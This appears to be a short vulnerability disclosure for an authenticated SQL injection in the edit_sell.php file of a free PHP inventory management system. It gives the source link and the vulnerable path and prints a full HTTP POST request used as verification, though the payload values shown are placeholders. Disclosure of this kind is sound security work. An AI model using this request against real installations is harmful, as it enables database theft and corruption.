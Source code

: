 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/action/edit_sell.php file, and you can see the concatenation of SQL statements in the code snippet.



![image-20250326142121093](images/image-20250326142121093.png)

![image-20250326142134185](images/image-20250326142134185.png)



Vulnerability verification：

```
POST /ample/app/action/edit_sell.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie: PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 280

invoice_id=1&customer_name=1&orderdate=1&prev_order_qty=1&orderQuantity=1&price=1&cat_descrip=1&totalPrice=1&pro_name=1&pid=1&up_pid=1&up_quantity=1&subtotal=1&prev_due=1&netTotal=1&paidBill=1&dueBill=1&payMethode=1&total_buy=1&sub_total=1&total_paid=1&paid_amount=1&pre_cus_due=1
```

 ![image-20250326142014700](images/image-20250326142014700.png)




































